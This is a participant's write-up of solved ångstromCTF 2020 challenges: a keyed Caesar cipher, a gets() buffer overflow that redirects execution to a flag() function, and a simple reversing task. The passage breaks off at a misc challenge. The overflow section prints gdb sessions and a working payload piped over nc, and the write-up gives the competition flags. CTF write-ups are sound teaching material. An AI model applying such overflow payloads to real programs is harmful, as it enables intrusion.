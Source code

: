# ångstromCTF 2020
![ångstromCTF 2020](angstromCTF2020.png)

ångstromCTF 2020 was really a great competition and we as [**P1rates**](https://2020.angstromctf.com/teams/6525) team enjoyed it and learned a lot, I participated as **T1m3-m4ch1n3** and Here's my writeup about what i solved.

## Challenges

| Title                              | Category                        | Score |
| ---------------------------------- |:-------------------------------:| -----:|
|    [Keysar](#Keysar)               |   Crypto                        | 40    |
|    [No Canary](#no-canary)         |   Binary Exploitation           | 50    |
|    [Revving Up](#revving-up)       |   Reversing                     | 50    |
|    [Inputter](#inputter)           |   Misc                          | 100   |
|    [msd](#msd)                     |   Misc                          | 140   |

---

## Keysar
#### Crypto (40 points)


### Description:
> **Hey! My friend sent me a message... He said encrypted it with the key ANGSTROMCTF.<br>
> He mumbled what cipher he used, but I think I have a clue.<br>
> Gotta go though, I have history homework!!<br>
> agqr{yue_stdcgciup_padas}**

> *Hint: Keyed caesar, does that even exist??*

### solution:

Well, as it's obvious from the title it has something to do with "Ceaser Cipher" and as the hint says "Keyed Ceaser" so i used this [site](http://rumkin.com/tools/cipher/caesar-keyed.php) to decrypt the flag given the key provided and BOOM! we got the flag!

Flag: ``` actf{yum_delicious_salad} ```

---

## No Canary
#### Binary Exploitation (50 points)


### Description:
> **Agriculture is the most healthful, most useful and most noble employment of man.<br>
> —George Washington<br><br>
> Can you call the flag function in this [program](No%20Canary/no_canary) ([source](No%20Canary/no_canary.c))? Try it out on the shell server at /problems/2020/no_canary or by connecting with nc shell.actf.co 20700.**

> *Hint: What's dangerous about the gets function?*

### solution:

The answer for the hint is simple .. It's "overflow"! .. gets function doesn't restrict the user input length and hence we can make an overflow given the address of flag() function to read the flag.txt!

So to get the address of flag() function we will use gdb
```
$ gdb no_canary
(gdb) set disassembly-flavor intel
(gdb) info func
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  setresgid@plt
0x0000000000401050  system@plt
0x0000000000401060  printf@plt
0x0000000000401070  gets@plt
0x0000000000401080  getegid@plt
0x0000000000401090  setvbuf@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  flag
0x0000000000401199  main
0x00000000004012e0  __libc_csu_init
0x0000000000401350  __libc_csu_fini
0x0000000000401358  _fini
```

Nice! we got the address **0x00401186** .. Now we know that name variable is of size 20 so we need a payload > 20 to reach to rip register and put the address of flag() function in there.

We need to see the main function:
```
(gdb) disas main
   .
   .
   0x00000000004012ba <+289>:	call   0x401070 <gets@plt>
   0x00000000004012bf <+294>:	lea    rax,[rbp-0x20]
   .
   .
```
And then setting a breakpoint at **0x004012bf** right after call gets() function instruction:
```
(gdb) b *0x004012bf
```
We'll run the program using a payload of 20 "A"s letter:
```
(gdb) r <<< $(python -c "print 'A' * 20")
```
Now we hit the breakpoint, We also need to know the saved rip register value so we can detect it on the stack and optimize our payload to target it:
```
(gdb) info frame
Stack level 0, frame at 0x7fffffffe590:
 rip = 0x4012bf in main; saved rip = 0x7ffff7a5a2e1
.
.
```
So our target is **0x7ffff7a5a2e1** .. Now by examining the stack:
```
(gdb) x/100x $rsp
0x7fffffffe560:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe570:	0x41414141	0x00007f00	0x00000000	0x00002af8
0x7fffffffe580:	.0x004012e0	0x00000000	0xf7a5a2e1	0x00007fff
.
.
```
It's so clear that **0xf7a5a2e1	0x00007fff** is the saved rip register in little-endian and if we can replace it with the flag() function address which is **0x0000000000401186** we can change the flow of the program to print the flag!

so our final payload will be:
```
(gdb) r <<< $(python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00'")
```
That was locally, and by applying it to **nc shell.actf.co 20700** it should give us the flag:
```
$ python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00' | nc shell.actf.co 20700
```

Flag: ``` actf{that_gosh_darn_canary_got_me_pwned!} ```

---

## Revving Up
#### Reversing (50 points)

### Description:
> **Clam wrote a [program](Revving%20Up/revving_up) for his school's cybersecurity club's first rev lecture!<br>
> Can you get it to give you the flag?<br>
> You can find it at /problems/2020/revving_up on the shell server, which you can access via the "shell" link at the top of the site.**

> *Hint: Try some google searches for "how to run a file in linux" or "bash for beginners".*

### solution:
We go to the shell server and to the directory given we'll find 2 files flag.txt and revving_up And by: ``` $ file revving_up ``` we know that it's ELF 64-bit and by running it:
```
$ ./revving_up
Congratulations on running the binary!
Now there are a few more things to tend to.
Please type "give flag" (without the quotes).

```
After we type "give flag":
```
give flag
Good job!
Now run the program with a command line argument of "banana" and you'll be done!
```
So we do as it's said:
```
$ ./revving_up banana
Congratulations on running the binary!
Now there are a few more things to tend to.
Please type "give flag" (without the quotes).
give flag
Good job!
Well I think it's about time you got the flag!
actf{g3tting_4_h4ng_0f_l1nux_4nd_b4sh}
```
So easy, right ?!!

Flag: ``` actf{g3tting_4_h4ng_0f_l1nux_4nd_b4sh} ```

---

## Inputter
#### Misc (100 points)

### Description:
> **Clam really likes challenging himself. When he learned about all these weird unprintable ASCII characters he just HAD to put it in a challenge. Can you satisfy his knack for strange and hard-to-input characters? Source.<br>
> Find it on the shell server at /problems/2020/inputter/.**

> *Hint: There are ways to run programs without using the shell.*

### solution:
